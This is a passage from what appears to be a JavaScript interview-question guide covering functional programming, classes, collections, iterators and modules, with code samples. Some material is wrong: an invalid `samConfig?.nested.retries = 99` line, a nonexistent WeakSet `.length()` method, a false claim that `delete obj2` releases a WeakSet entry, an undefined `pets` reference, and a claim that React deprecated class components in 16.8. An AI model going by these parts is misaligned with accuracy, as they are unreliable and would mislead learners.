    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is a pure function, and why does it matter for predictable software?

A **pure function** has two properties:
1. **Deterministic** — given the same inputs, it always returns the same output.
2. **No side effects** — it does not modify external state, mutate arguments, perform I/O, or depend on anything outside its arguments (no global variables, no `Date.now()`, no `Math.random()`).

Pure functions are the foundation of functional programming. They are:
- **Trivially testable** — no mocks, no setup, no teardown needed.
- **Safely cacheable** — results can be memoised (same input → same output).
- **Safely parallelisable** — no shared state mutations.
- **Composable** — output of one is safely passed as input to another.

```js
// ❌ Impure — depends on external state, has side effects
let taxRate = 0.1;
function calculateTotal(price) {
  console.log('Calculating...'); // side effect: I/O
  return price + price * taxRate; // depends on external variable
}
// calculateTotal(100) may return different results if taxRate changes

// ✅ Pure — same input always produces same output, no side effects
function calculateTotalPure(price, taxRate) {
  return price + price * taxRate;
}
console.log(calculateTotalPure(100, 0.1)); // always 110
console.log(calculateTotalPure(100, 0.1)); // always 110

// ❌ Impure — mutates argument
function addItemMutating(cart, item) {
  cart.items.push(item); // mutation ← side effect
  return cart;
}

// ✅ Pure — returns new object, original untouched
function addItemPure(cart, item) {
  return { ...cart, items: [...cart.items, item] };
}

// ── Purity enables memoisation ───────────────────────────────────────────────
function memoize(fn) {
  const cache = new Map();
  return function (...args) {
    const key = JSON.stringify(args);
    if (cache.has(key)) return cache.get(key);
    const result = fn(...args);
    cache.set(key, result);
    return result;
  };
}

const expensiveCalc = memoize((n) => {
  // Simulate expensive computation
  return Array.from({ length: n }, (_, i) => i).reduce((a, b) => a + b, 0);
});

console.log(expensiveCalc(1000)); // computed
console.log(expensiveCalc(1000)); // cached — instant
```

**Real-World Use Case:**

Redux reducers are **required to be pure functions** — `(state, action) => newState`. This constraint is what makes Redux DevTools' time-travel debugging possible: since reducers are pure, replaying a sequence of actions from any snapshot always produces the identical state, making bugs reproducible across environments. React\'s `useMemo` and `useCallback` hooks are essentially memoisation — they only work correctly when the computation or callback is pure (or referentially stable).

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is function composition and how do `compose` and `pipe` work?

**Function composition** is the mathematical concept of chaining functions such that the output of one becomes the input of the next: `(f ∘ g)(x) = f(g(x))`. In JavaScript this is implemented with two conventions:

- **`compose(f, g, h)`** — applies right-to-left: `f(g(h(x)))` (mathematical convention)
- **`pipe(f, g, h)`** — applies left-to-right: `h(g(f(x)))` (more readable for imperative programmers)

Both require **unary functions** (single argument) for clean composition. Multi-argument functions must be curried first.

```js
// ── compose — right-to-left ───────────────────────────────────────────────────
const compose = (...fns) => (x) => fns.reduceRight((acc, fn) => fn(acc), x);

// ── pipe — left-to-right ─────────────────────────────────────────────────────
const pipe = (...fns) => (x) => fns.reduce((acc, fn) => fn(acc), x);

// ── Unary transformations (each takes one value, returns one value) ───────────
const trim        = str => str.trim();
const toLower     = str => str.toLowerCase();
const removeSpaces = str => str.replace(/\s+/g, '-');
const removeSpecial = str => str.replace(/[^a-z0-9-]/g, '');

// slug generator — data flows left to right (pipe is more readable here)
const slugify = pipe(trim, toLower, removeSpaces, removeSpecial);
console.log(slugify('  Hello, World! 2024  ')); // 'hello-world-2024'

// ── Currying enables multi-arg functions in pipelines ────────────────────────
const curry = (fn) => {
  const arity = fn.length;
  return function curried(...args) {
    return args.length >= arity
      ? fn(...args)
      : (...more) => curried(...args, ...more);
  };
};

const add      = curry((a, b) => a + b);
const multiply = curry((a, b) => a * b);
const clamp    = curry((min, max, val) => Math.min(Math.max(val, min), max));

const processScore = pipe(
  multiply(10),   // 10x raw score
  add(5),         // bonus points
  clamp(0, 100),  // cap at 100
  Math.round,
);

console.log(processScore(9));  // Math.round(clamp(0,100)(add(5)(multiply(10)(9)))) = 95
console.log(processScore(11)); // 100 — clamped

// ── Point-free style ─────────────────────────────────────────────────────────
// 'Point-free' means the data argument is implicit — functions are composed
// without mentioning the value they operate on
const getActiveUserNames = pipe(
  users => users.filter(u => u.active),
  users => users.map(u => u.name),
  names => names.sort(),
);
// vs explicit:
// const getActiveUserNames = (users) => users.filter(...).map(...).sort();
```

**Real-World Use Case:**

Redux middleware (`applyMiddleware`) and `compose` utility implement pipeline composition — `compose(logger, thunk, devTools)(createStore)` stacks middlewares right-to-left. Ramda and fp-ts are production FP libraries used in fintech (e.g., Klarna, SumUp) where complex financial calculation pipelines (apply fee → apply tax → round → format currency) are expressed as composed unary functions, making each step independently testable and the entire pipeline auditable by compliance teams.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is currying, and how does it differ from partial application?

**Currying** transforms a function of `n` arguments into a chain of `n` unary (single-argument) functions: `f(a, b, c)` becomes `f(a)(b)(c)`. Each call returns a new function waiting for the next argument until all arguments are supplied.

**Partial application** fixes some arguments of a function, returning a new function that expects the remaining arguments — the result does not have to be unary.

The distinction:
- Currying always produces unary functions step by step.
- Partial application fixes `k` of `n` args at once, producing a function of `n-k` args (which can be > 1).
- `.bind(null, arg1)` is partial application, not currying.

```js
// ── Manual currying ───────────────────────────────────────────────────────────
const curriedAdd = a => b => c => a + b + c;
console.log(curriedAdd(1)(2)(3)); // 6

// ── Generic curry utility ─────────────────────────────────────────────────────
const curry = (fn) => {
  const arity = fn.length;
  return function curried(...args) {
    if (args.length >= arity) return fn(...args);
    return (...more) => curried(...args, ...more);
  };
};

const add3 = curry((a, b, c) => a + b + c);
console.log(add3(1)(2)(3));   // 6
console.log(add3(1, 2)(3));   // 6 — also valid (partial grouping)
console.log(add3(1)(2, 3));   // 6
console.log(add3(1, 2, 3));   // 6

// ── Partial application via .bind() ──────────────────────────────────────────
function log(level, timestamp, message) {
  return `[${level}] ${timestamp}: ${message}`;
}

const warnNow = log.bind(null, 'WARN', new Date().toISOString());
console.log(warnNow('Disk usage high')); // [WARN] 2026-05-12T...: Disk usage high
// warnNow takes 1 arg, not 1-at-a-time — this is partial application

// ── Practical: curried API request builder ────────────────────────────────────
const request = curry(async (baseUrl, method, endpoint, body) => {
  const res = await fetch(`${baseUrl}${endpoint}`, {
    method,
    headers: { 'Content-Type': 'application/json' },
    body: body ? JSON.stringify(body) : undefined,
  });
  if (!res.ok) throw new Error(`HTTP ${res.status}`);
  return res.json();
});

const api     = request('https://api.example.com');
const apiGet  = api('GET');
const apiPost = api('POST');

// Now use like:
// const user  = await apiGet('/users/1')();
// const newUser = await apiPost('/users')({ name: 'Alice' });
```

**Real-World Use Case:**

RxJS operators are curried/partially applied functions — `map(x => x * 2)` returns an operator function that, when applied inside a `pipe()`, transforms an Observable. This design means operators are configuration-first, data-last — identical to curried functions. Ramda\'s entire library follows this convention: every function is auto-curried and data is always the last argument, enabling seamless point-free composition used in production at companies like SoundCloud and Typeform.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is immutability and how do you enforce it in JavaScript?

**Immutability** means that once a data structure is created, it cannot be changed. Instead of mutating existing data, you produce new data with the desired changes. JavaScript does not enforce immutability by default, but several mechanisms enforce it to varying degrees:

| Mechanism | Prevents new properties | Prevents property change | Prevents deletion | Deep? |
|---|---|---|---|---|
| `const` | ❌ (binding only) | ❌ | ❌ | ❌ |
| `Object.freeze()` | ✅ | ✅ | ✅ | ❌ (shallow) |
| `Object.seal()` | ✅ | ❌ | ✅ | ❌ |
| `Object.preventExtensions()` | ✅ | ❌ | ❌ | ❌ |
| Structural sharing (Immer/Immutable.js) | ✅ (by convention/proxy) | ✅ | ✅ | ✅ |

```js
// ── Object.freeze (shallow) ───────────────────────────────────────────────────
const config = Object.freeze({
  apiUrl: 'https://api.example.com',
  timeout: 5000,
  nested: { retries: 3 },
});

config.timeout = 9999;       // silently fails (throws in strict mode)
console.log(config.timeout); // 5000 — unchanged

config.nested.retries = 99;  // ⚠️ succeeds — freeze is shallow!
console.log(config.nested.retries); // 99 — mutated!

// ── Deep freeze ──────────────────────────────────────────────────────────────
function deepFreeze(obj) {
  Object.getOwnPropertyNames(obj).forEach(name => {
    const value = obj[name];
    if (value && typeof value === 'object') deepFreeze(value);
  });
  return Object.freeze(obj);
}

const safeConfig = deepFreeze({
  apiUrl: 'https://api.example.com',
  nested: { retries: 3 },
});
samConfig?.nested.retries = 99; // fails silently / throws in strict mode

// ── Immutable updates with spread (Redux pattern) ─────────────────────────────
const state = { user: { name: 'Alice', score: 10 }, theme: 'dark' };

// ❌ Mutation
state.user.score = 20;

// ✅ Immutable update — new object, original untouched
const newState = {
  ...state,
  user: { ...state.user, score: 20 },
};
console.log(state.user.score);    // 10 — unchanged
console.log(newState.user.score); // 20

// ── Immer — write mutating syntax, get immutable result ───────────────────────
import { produce } from 'immer';

const nextState = produce(state, draft => {
  draft.user.score = 20;        // looks like mutation
  draft.user.badges.push('🏆'); // but draft is a Proxy — original is safe
});
// state is unchanged; nextState is a new object with structural sharing

// ── Immutable array operations ────────────────────────────────────────────────
const items = [1, 2, 3, 4, 5];

const withAdded   = [...items, 6];                             // add
const withRemoved = items.filter((_, i) => i !== 2);           // remove index 2
const withUpdated = items.map((v, i) => i === 1 ? 99 : v);    // update index 1
const withInserted = [...items.slice(0, 2), 99, ...items.slice(2)]; // insert at 2
```

**Real-World Use Case:**

Redux\'s change-detection mechanism is based on **reference equality** (`===`). React-Redux\'s `useSelector` re-renders a component only when the selected state slice returns a different object reference. This is only reliable if reducers produce new objects on every state change — i.e., immutable updates. Immer (built into Redux Toolkit) uses ES6 `Proxy` to intercept mutations on a `draft` object, compute the minimum set of changed nodes via structural sharing, and return a new immutable tree — achieving both developer ergonomics (write mutations naturally) and performance (only changed subtrees allocate new objects). This is how RTK\'s `createSlice` achieves 60% less boilerplate than hand-written spread reducers.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 23. Classes

<br>

## Q. What is the JavaScript `class` syntax, and how does it map to prototype-based inheritance?

ES6 `class` syntax is **syntactic sugar** over JavaScript\'s existing prototype-based inheritance — it does not introduce a new object model. Under the hood, a class declaration creates a constructor function and assigns methods to its `.prototype`. Understanding this mapping is critical for debugging, performance profiling, and interoperating with pre-ES6 code.

```js
// ES6 class
class Animal {
  constructor(name) {
    this.name = name;   // instance property
  }

  speak() {             // placed on Animal.prototype
    return `${this.name} makes a sound.`;
  }
}

// Desugared equivalent (what the engine actually does)
function AnimalES5(name) {
  this.name = name;
}
AnimalES5.prototype.speak = function () {
  return `${this.name} makes a sound.`;
};

// Both create the same prototype chain
const a = new Animal('Dog');
console.log(a.speak());                          // 'Dog makes a sound.'
console.log(a.hasOwnProperty('name'));           // true  — instance property
console.log(a.hasOwnProperty('speak'));          // false — on prototype
console.log(Object.getPrototypeOf(a) === Animal.prototype); // true

// ── Class is still a function ─────────────────────────────────────────────────
console.log(typeof Animal); // 'function'

// ── Class declarations are NOT hoisted (TDZ) ─────────────────────────────────
// const x = new MyClass(); // ❌ ReferenceError
class MyClass {}
const x = new MyClass(); // ✅

// ── Class body is always in strict mode ──────────────────────────────────────
class StrictDemo {
  test() {
    // this function body is strict mode automatically
    // 'with' statement would throw SyntaxError here
  }
}
```

**Real-World Use Case:**

Node.js\'s built-in `EventEmitter` class (and the HTTP `IncomingMessage`, `ServerResponse` classes) are implemented as prototype chains. When application code extends `EventEmitter` to create a custom event bus (`class OrderService extends EventEmitter {}`), the prototype chain is: `orderService → OrderService.prototype → EventEmitter.prototype → Object.prototype`. Understanding this chain is essential when debugging why a custom `emit` override does not fire — it may have shadowed the inherited method rather than overriding it correctly.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How does class inheritance work with `extends` and `super`, and what are the rules around `super()` in constructors?

`extends` sets up two prototype chains:
1. `Child.prototype.__proto__ === Parent.prototype` — instance method inheritance.
2. `Child.__proto__ === Parent` — static method inheritance.

`super` is used in two contexts:
- **In a constructor**: `super(...args)` calls the parent constructor. In a derived class, `super()` **must** be called before any access to `this`. The engine throws `ReferenceError` if you access `this` before `super()` — this is because the parent constructor is responsible for allocating the `this` object for derived classes.
- **In a method**: `super.methodName()` calls the parent\'s prototype method, enabling cooperative method overriding.

```js
class Shape {
  constructor(colour) {
    this.colour = colour;
    this.createdAt = new Date().toISOString();
  }

  describe() {
    return `A ${this.colour} shape`;
  }

  static create(colour) {
    return new this(colour); // `this` here is the class (static context)
  }
}

class Circle extends Shape {
  constructor(colour, radius) {
    super(colour);          // ✅ must call super() before using `this`
    this.radius = radius;   // safe to access `this` now
  }

  get area() {
    return +(Math.PI * this.radius ** 2).toFixed(4);
  }

  describe() {
    // super.describe() calls Shape.prototype.describe with `this` = this Circle
    return `${super.describe()}, circle with radius ${this.radius}`;
  }
}

class ColoredCircle extends Circle {
  constructor(colour, radius, borderColour) {
    super(colour, radius);                  // chain: ColoredCircle → Circle → Shape
    this.borderColour = borderColour;
  }

  describe() {
    return `${super.describe()}, bordered in ${this.borderColour}`;
  }
}

const cc = new ColoredCircle('red', 5, 'black');
console.log(cc.describe());
// 'A red shape, circle with radius 5, bordered in black'
console.log(cc.area);          // 78.5398
console.log(cc instanceof Circle); // true
console.log(cc instanceof Shape);  // true

// ── Static inheritance ─────────────────────────────────────────────────────────
class Rectangle extends Shape {
  constructor(colour, w, h) {
    super(colour);
    this.width = w; this.height = h;
  }
}

const rect = Rectangle.create('blue'); // inherited static method, `this` = Rectangle
console.log(rect instanceof Rectangle); // true — because `this` was Rectangle

// ── super() before this — ReferenceError ─────────────────────────────────────
class Bad extends Shape {
  constructor(colour) {
    // this.extra = 'x'; // ❌ ReferenceError: Must call super before accessing 'this'
    super(colour);
    this.extra = 'x';   // ✅
  }
}
```

**Real-World Use Case:**

React class components used `extends React.Component` with `super(props)` in the constructor. Forgetting `super(props)` (or calling `super()` without `props`) caused `this.props` to be `undefined` inside the constructor — a class of bug so common that the React team deprecated class components in favour of functional components with hooks in React 16.8. Modern frameworks like NestJS heavily use class inheritance for service injection, controller base classes, and exception filters, requiring precise understanding of the `super` call chain.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are static methods and properties, and how do they differ from instance members?

**Static members** (`static` keyword) belong to the **class itself** — they live on the constructor function object, not on `prototype`. They are not accessible on instances. **Instance members** (defined in `constructor` or on `prototype`) belong to each individual instance.

| | Access | Memory | Inherited via |
|---|---|---|---|
| Static method/property | `ClassName.method()` | One copy on the class | `ChildClass.__proto__` |
| Instance method | `instance.method()` | Shared on `prototype` | `instance.__proto__` |
| Instance property | `instance.prop` | One copy per instance | Own property |

```js
class Database {
  // ── Static property — shared config ──────────────────────────────────────
  static #instances = 0;           // private static field (ES2022)
  static DEFAULT_TIMEOUT = 5_000;

  // ── Static factory methods ────────────────────────────────────────────────
  static fromConnectionString(connStr) {
    const [host, port, name] = connStr.split(':');
    return new Database({ host, port: +port, name });
  }

  static getInstance() {
    if (!Database.#instance) Database.#instance = new Database({});
    return Database.#instance;
  }
  static #instance = null; // private static — singleton pattern

  // ── Instance constructor ──────────────────────────────────────────────────
  constructor({ host = 'localhost', port = 5432, name = 'app' } = {}) {
    this.host     = host;
    this.port     = port;
    this.dbName   = name;
    this.#queryCount = 0;
    Database.#instances++;
  }

  // ── Private instance field ────────────────────────────────────────────────
  #queryCount;

  // ── Instance method ───────────────────────────────────────────────────────
  async query(sql) {
    this.#queryCount++;
    // ... execute sql
    return [];
  }

  get stats() {
    return { host: this.host, queries: this.#queryCount };
  }

  // ── Static utility — no instance needed ──────────────────────────────────
  static sanitise(input) {
    return String(input).replace(/'/g, "''");
  }

  static get instanceCount() {
    return Database.#instances;
  }
}

const db1 = new Database({ host: 'db.prod.io', port: 5432, name: 'shop' });
const db2 = Database.fromConnectionString('db.replica.io:5432:shop_ro');

console.log(Database.instanceCount);  // 2 — static
console.log(Database.DEFAULT_TIMEOUT); // 5000
// console.log(db1.instanceCount);    // undefined — statics not on instances

console.log(Database.sanitise("O'Brien")); // 'O''Brien'

// ── Static inheritance ────────────────────────────────────────────────────────
class PostgresDatabase extends Database {
  static DEFAULT_TIMEOUT = 10_000; // override parent static

  static fromEnv() {
    return new PostgresDatabase({
      host: process.env.DB_HOST,
      port: +process.env.DB_PORT,
      name: process.env.DB_NAME,
    });
  }
}

console.log(PostgresDatabase.DEFAULT_TIMEOUT); // 10000 — own static
console.log(PostgresDatabase.sanitise('test')); // inherited from Database ✅
```

**Real-World Use Case:**

TypeORM and Prisma use static methods extensively: `UserRepository.findOne({ id })`, `UserRepository.create({})`, `UserRepository.count()`. These class-level operations don\'t need an instance because they operate on the table as a whole, not on a single row. NestJS decorators (`@Injectable()`, `@Controller()`) attach metadata to class constructor functions via `Reflect.defineMetadata` — a static-like metadata pattern that enables the DI container to introspect and wire dependencies at startup without instantiating the classes first.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are private class fields (`#`), and how do they differ from closure-based privacy and naming conventions?

ES2022 introduced **true private class fields** using the `#` prefix. These are enforced by the JavaScript engine at the syntax level — accessing `instance.#field` from outside the class is a `SyntaxError`, not just `undefined`. This is fundamentally different from:

- **`_` naming convention** (`this._value`) — purely cosmetic, still fully public.
- **Closure-based privacy** (Module Pattern / WeakMap) — private by scope, but awkward with classes and inheritance.
- **TypeScript `private`** — compile-time only; the compiled JavaScript has no runtime enforcement.

| Mechanism | Runtime enforced | Works with `in` operator | Inheritable | Performant |
|---|---|---|---|---|
| `#` private field | ✅ | ✅ (`#field in obj`) | ❌ (each class owns its own) | ✅ (V8 optimises as struct fields) |
| `_` convention | ❌ | N/A | ✅ | ✅ |
| Closure / WeakMap | ✅ | ❌ | ❌ | Moderate (WeakMap lookup) |
| TypeScript `private` | ❌ (compile-time only) | N/A | ✅ | ✅ |

```js
class BankAccount {
  // Private instance fields
  #balance;
  #owner;
  #transactions = [];

  // Private static field
  static #nextId = 1;

  constructor(owner, initialDeposit = 0) {
    if (initialDeposit < 0) throw new RangeError('Initial deposit cannot be negative');
    this.#owner   = owner;
    this.#balance = initialDeposit;
    this.id       = BankAccount.#nextId++; // public id, private counter
  }

  // Private method
  #recordTransaction(type, amount) {
    this.#transactions.push({ type, amount, ts: Date.now(), balance: this.#balance });
  }

  deposit(amount) {
    if (amount <= 0) throw new RangeError('Deposit must be positive');
    this.#balance += amount;
    this.#recordTransaction('deposit', amount);
    return this;
  }

  withdraw(amount) {
    if (amount > this.#balance) throw new Error('Insufficient funds');
    this.#balance -= amount;
    this.#recordTransaction('withdrawal', amount);
    return this;
  }

  get balance()  { return this.#balance; }
  get statement() { return [...this.#transactions]; } // defensive copy

  // Ergonomic existence check using `in`
  static isBankAccount(obj) {
    return #balance in obj; // true only for genuine BankAccount instances
  }
}

const acc = new BankAccount('Alice', 1000);
acc.deposit(500).withdraw(200);
console.log(acc.balance);        // 1300
// console.log(acc.#balance);    // ❌ SyntaxError — enforced at parse time
console.log(acc._balance);       // undefined — not a naming convention field

console.log(BankAccount.isBankAccount(acc));  // true
console.log(BankAccount.isBankAccount({}));   // false

// ── V8 performance: private fields are struct-like ────────────────────────────
// V8 treats classes with consistent field shapes as 'hidden classes' (shapes).
// Private fields declared in the constructor are part of the object\'s shape —
// accessed via fixed offsets like C struct fields, much faster than Map lookups.
```

**Real-World Use Case:**

The Web Cryptography API\'s `CryptoKey` objects use engine-level privacy to prevent key material from being extractable in JavaScript. Libraries like `jose` (JSON Object Signing and Encryption) use private class fields to store decoded key bytes — ensuring that even if a bug in application code accidentally logs an instance, the private material is not serialised by `JSON.stringify` (private fields are not enumerable and not accessible externally). This is a security-critical pattern for key management in OAuth 2.0 token signing services.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 24. Collections

<br>

## Q. What is the difference between ES6 Map and WeakMap?

**Map:**  

It is used to associate a key to a value irrespective of the datatype such as strings, numbers, objects etc. To assign values to a map you need to use the set method:

```js
const map = new Map();

map.set("a", 10);
map.set("b", 20);
map.set(3, 30);

console.log(map.get("a")); // 10

map.set("a", 50);

console.log(map.get("a")); // 50
console.log(map.size); // 3

map.delete("b");

console.log(map.size); // 2
console.log(map); // {'a' => 50, 3 => 30}
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-map-p4wm4c?file=/src/index.js)**

**WeakMap:**

The WeakMap object is a collection of key/value pairs in which the keys are weakly referenced. In this case, keys must be objects and the values can be arbitrary values. WeakMap accepts only objects but not any primitive values (strings, numbers)

```js
// WeakMap()

function Obj() {
  this.val = new Array(10).join("---");
}

window.obj = new Obj();
var map = new WeakMap();
console.log(window.obj); // {val: "-----------------", constructor: Object}
map.set(window.obj, 20); // WeakMap {Obj => 20}
console.log(map);
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-weakmap-7e1sez?file=/src/index.js)**

**Difference between Map and WeakMap:**  

1. A WeakMap accepts only **objects** as keys whereas a Map, in addition to **objects**, accepts primitive datatype such as **strings**, **numbers** etc.
2. WeakMap objects doesn\'t avert garbage collection if there are no references to the object which is acting like a key. Therefore there is no method to retrieve keys in WeakMap, whereas in Map there are methods such as `Map.prototype.keys()` to get the keys.
3. There is no size property exists in WeakMap.

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-request-object-ro4xt9?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q 16.2 What is the difference between Set and WeakSet in ES6?

**Set:**

Using the `Set()` class we can create an array like heterogeneous iterable object, which will contain only unique values in it. Unique is not just unique by values but also by types. i.e. it will consider `"2"` and `2` separate or different.

Syntax:  

```js
const mySet = new Set([iterable]);
```

**Example:**:

```js
const set = new Set([10, 20]);

set.add(30); // 10, 20, 30
set.add(30); // 10, 20, 30
set.add("Hello"); // 10, 20, 30, 'Hello'
set.add({ a: 10, b: 20 }); // 10, 20, 30, 'Hello', {a:10, b:20}

set.add(function () {}); // 10, 20, 30, 'Hello', {a:10, b:20}, [Function]

// Iterating Sets
for (let item of set) console.log(item);

console.log(set.has("Hello")); // ture
set.delete("Hello"); // 'Hello' deleted
console.log(set.has("Hello")); // false

console.log(set.size); // 5
set.clear(); // Set Cleared
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-set-0imn2s?file=/src/index.js)**

**WeakSet:**

A `WeakSet()` is a collection similar to Set, which holds unique values; but it only holds Objects and nothing else. If an object which is there in your WeakSet object has no other reference variable left, it will automatically be deleted.

**Syntax:**

```js
const myWeakSet = new WeakSet([iterable with only objects]);
```

**Example:**:

```js
const weakSet = new WeakSet([{ a: 10 }]);
const obj1 = { o: 10 };
const obj2 = { o: 20 };

weakSet.add(obj1);
weakSet.add(obj2);

weakSet.has(obj2); // true
delete obj2; // Don\'t take it literally - you can\'t delete objects like that. Use scope to execute this.

weakSet.has(obj2); // false, because you deleted obj2, so WeakSet releases it automatically
weakSet.delete(obj1); // obj1 deleted from the set
weakSet.add(2); // ERROR, no primitive value
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-weakset-i1dxbx?file=/src/index.js)**

|Set	                          |WeakSet                        |
|-------------------------------|-------------------------------|
|Can contain any type of values |	Can only contain objects      |
|To find number of elements use `.size()`	|To find elements count use `.length()`|
|.forEach() is available to iterate|	No .forEach() to iterate  |
|Nothing is auto destroyed	     |If an element object has no other reference left, it will be auto released to garbage collector|

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. List down the collection of methods available on WeakSet?

Below are the list of methods available on WeakSet,

* **add(value)**: A new object is appended with the given value to the weakset
* **delete(value)**: Deletes the value from the WeakSet collection.
* **has(value)**: It returns true if the value is present in the WeakSet Collection, otherwise it returns false.
* **length()**: It returns the length of weakSetObject

Let us see the functionality of all the above methods in an example,

```js
const weakSetObject = new WeakSet();
const firstObject = {};
const secondObject = {};

// add(value)
weakSetObject.add(firstObject);
weakSetObject.add(secondObject);

console.log(weakSetObject.has(firstObject)); // true
weakSetObject.delete(secondObject);
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-weakset-39nhvv?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. List down the collection of methods available on WeakMap?

Below are the list of methods available on WeakMap,

* set(key, value): Sets the value for the key in the WeakMap object. Returns the WeakMap object.
* delete(key): Removes any value associated to the key.
* has(key): Returns a Boolean asserting whether a value has been associated to the key in the WeakMap object or not.
* get(key): Returns the value associated to the key, or undefined if there is none.

Let us see the functionality of all the above methods in an example,

```js
const weakMapObject = new WeakMap();
const firstObject = {};
const secondObject = {};

// set(key, value)
weakMapObject.set(firstObject, 'John');
weakMapObject.set(secondObject, 100);

console.log(weakMapObject.has(firstObject)); //true
console.log(weakMapObject.get(firstObject)); // John

weakMapObject.delete(secondObject);
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is an Iterator?

An iterator is an object which defines a sequence and a return value upon its termination. It implements the Iterator protocol with a `.next()` method which returns an object with two properties: 

* **value**: The next value in the iteration sequence.
* **done**: This is true if the last value in the sequence has already been consumed.

**Example:**

```js
// custom Iterator
function numbers() {
  let n = 0;
  return {
    next: function () {
      n += 10;
      return { value: n, done: false };
    }
  };
}

// Create an Iterator
const number = numbers();

console.log(number.next()); // {value: 10, done: false}
console.log(number.next()); // {value: 20, done: false}
console.log(number.next()); // {value: 30, done: false}
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-iterator-sh0tvo?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are async iterators and the `for await...of` loop?

An **async iterator** is an object that implements the async iteration protocol: its `Symbol.asyncIterator` method returns an object with a `next()` method that returns a **Promise** resolving to `{ value, done }`. The `for await...of` loop consumes async iterables, making it easy to process streams, paginated APIs, or any async sequence.

**Custom async iterator:**

```js
function asyncRange(start, end, delay = 500) {
  return {
    [Symbol.asyncIterator]() {
      let current = start;
      return {
        next() {
          return new Promise(resolve => {
            setTimeout(() => {
              if (current <= end) {
                resolve({ value: current++, done: false });
              } else {
                resolve({ value: undefined, done: true });
              }
            }, delay);
          });
        }
      };
    }
  };
}

// for await...of consumption
async function main() {
  for await (const num of asyncRange(1, 5)) {
    console.log(num); // 1, 2, 3, 4, 5 (each after 500 ms)
  }
}
main();
```

**Practical use — paginated API:**

```js
async function* fetchPages(url) {
  let page = 1;
  while (true) {
    const res = await fetch(`${url}?page=${page++}`);
    const data = await res.json();
    if (!data.items.length) return;
    yield data.items;
  }
}

async function processAll() {
  for await (const items of fetchPages('/api/products')) {
    items.forEach(item => console.log(item.name));
  }
}
```

**Key differences from regular iterators:**

| | Synchronous Iterator | Async Iterator |
|--|----------------------|----------------|
| Protocol | `Symbol.iterator` | `Symbol.asyncIterator` |
| `next()` returns | `{ value, done }` | `Promise<{ value, done }>` |
| Loop | `for...of` | `for await...of` |
| Use case | Arrays, strings, Maps | Streams, paginated APIs |

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are `WeakRef` and `FinalizationRegistry` in JavaScript?

Introduced in **ES2021**, `WeakRef` and `FinalizationRegistry` provide low-level access to the garbage collector — primarily for caches and resource management.

**WeakRef:**

A `WeakRef` holds a *weak reference* to an object, meaning it does not prevent the object from being garbage-collected. Use `.deref()` to access the object; it returns `undefined` if already collected.

```js
let obj = { name: 'Cache entry' };
const ref = new WeakRef(obj);

console.log(ref.deref()?.name); // 'Cache entry'

obj = null; // remove strong reference — obj may now be GC'd

// Later (after GC runs):
console.log(ref.deref()); // undefined (if already collected)
```

**FinalizationRegistry:**

Lets you register a callback to be called when a registered object is garbage-collected.

```js
const registry = new FinalizationRegistry((heldValue) => {
  console.log(`${heldValue} was garbage collected`);
});

let target = { data: '...' };
registry.register(target, 'myObject');

target = null; // allows GC to collect it
// When collected: logs "myObject was garbage collected"
```

**Practical use — weak cache:**

```js
const cache = new Map();

function getExpensiveData(key) {
  const ref = cache.get(key);
  const cached = ref?.deref();
  if (cached) return cached;

  const result = computeExpensiveResult(key);
  cache.set(key, new WeakRef(result));
  return result;
}
```

**Important caveats:**

* GC timing is non-deterministic — never rely on `FinalizationRegistry` for critical cleanup.
* `WeakRef` should be a last resort; prefer `WeakMap`/`WeakSet` for most weak-reference patterns.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 25. MODULES

<br>

## Q. What is modules in ES6?

Making objects, functions, classes or variables available to the outside world is as simple as exporting them, and then importing them where needed in other files.

**Benefits**  

* Code can be split into smaller files of self-contained functionality.
* The same modules can be shared across any number of applications.
* Ideally, modules need never be examined by another developer, because they’ve has been proven to work.
* Code referencing a module understands it\'s a dependency. If the module file is changed or moved, the problem is immediately obvious.
* Module code (usually) helps eradicate naming conflicts. Function `x()` in module1 cannot clash with function x() in module2. Options such as namespacing are employed so calls become `module1.x()` and `module2.x()`.

**Exporting:**

```js
export const myNumbers = [1, 2, 3, 4];
const animals = ['Panda', 'Bear', 'Eagle']; // Not available directly outside the module

export function myLogger() {
  console.log(myNumbers, animals);
}

export class Alligator {
   constructor() {
     // ...
   }
}
```

**Exporting with alias:**

```js
export { myNumbers, myLogger as Logger, Alligator }
```

**Default export:**

```js
export const myNumbers = [1, 2, 3, 4];
const animals = ['Panda', 'Bear', 'Eagle'];

export default function myLogger() {
  console.log(myNumbers, pets);
}

export class Alligator {
  constructor() {
    // ...
  }
}
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is dynamic import in JavaScript?

Dynamic `import()` (ES2020) allows you to import a module **on demand** at runtime rather than statically at the top of a file. It returns a **Promise** that resolves to the module object, enabling lazy loading and code splitting.

**Syntax:**

```js
import(moduleSpecifier).then(module => { ... });

// or with async/await
const module = await import(moduleSpecifier);
```

